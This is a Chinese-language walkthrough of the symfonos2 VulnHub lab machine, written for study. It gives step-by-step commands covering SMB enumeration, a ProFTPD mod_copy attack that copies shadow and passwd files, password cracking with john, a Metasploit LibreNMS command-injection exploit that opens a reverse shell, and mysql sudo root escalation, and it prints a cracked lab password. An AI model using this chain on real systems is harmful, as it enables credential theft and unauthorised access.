



# symfonos2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-2,331/

**Description**

OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.

**知识点**
- smb 信息探测
- CVE-2015-3306
- CVE-2018-20434
- shadow 密码爆破

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.149` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.149
```


21、22、80、139、445

怎么又有 smb,枚举下 smb 试试
```bash
enum4linux 192.168.141.149
```


找到一个 `/anonymous` 文件夹和 2个用户,进去看看文件
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
cd backups\
ls
get log.txt
```



查看下 log.txt 可以发现很多线索


开头告诉你 shadow 内容在 backups 目录下,然后后面是 smb 的配置,有个密码


然后开始看 ftp 的配置,配置文件说明了是 ProFTPD 程序，还告诉你有个 aeolus 账号


想起来之前 nmap 扫描 FTP 得到的版本号是 1.3.5,也许可以找找漏洞
```bash
searchsploit -w proftpd 1.3.5
```


这3个都一样,漏洞编号为 CVE-2015-3306,但是这个漏洞只是可以复制文件,并不能直接进行命令执行,并且需要知道目标路径

---

# 中期-漏洞利用

这里我们从 log.txt 中可以得知 anonymous 用户的实际路径为 `/home/aeolus/share`,加上开头告诉你 shadow 文件在 backup 目录下,接下来就尝试将 backup目录下的 shadow 复制到 anonymous 用户目录下


```bash
ftp 192.168.141.149
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.txt
```


成功了,上 smb 下载下来
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
get shadow.txt
exit
cat shadow.txt
```



下面用同样的方式下载 passwd 文件
```bash
ftp 192.168.141.149
site cpfr /etc/passwd
site cpto /home/aeolus/share/passwd.txt

smbclient //192.168.141.149/anonymous -U % -N
get passwd.txt
exit

mkdir /root/.john
cp passwd.txt /root/.john
cp shadow.txt /root/.john
cd /root/.john
unshadow passwd.txt shadow.txt > hash.txt
cat hash.txt
```


使用 john 开始跑 hash
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



只跑出 aeolus 一个用户的密码,使用这个凭证成功 SSH 上去
```
aeolus  sergioteamo
```

找找提权的可能
```bash
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
```


没成功,看看 web 方面


又是啥都没有,直接翻 web 配置文件看看
```bash
cd /etc/apache2
cat apache2.conf
```


看看这个端口监听文件
```bash
cat ports.conf
```


端口 8080 有个无法从外部访问的网站,端口转发一下
```bash
socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
```

现在 8080 可以通过 5000 端口访问


找找有没有可利用的漏洞
```bash
searchsploit -w librenms
```


看了下,需要认证,结果用 aeolus  sergioteamo 可以登上去,那就用 msf 模块试试


```bash
msfconsole
search librenms
use exploit/linux/http/librenms_addhost_cmd_inject
set RHOST 192.168.141.149
set LHOST 192.168.141.134
set PORT 5000
set USERNAME aeolus
set PASSWORD sergioteamo
run
```


---

# 后期-提权

寻找提权利用点
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```


可以在 gtfobin 找到 mysql 提权的方法 https://gtfobins.github.io/gtfobins/mysql/
```
sudo mysql -e '\! /bin/sh'
```


提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
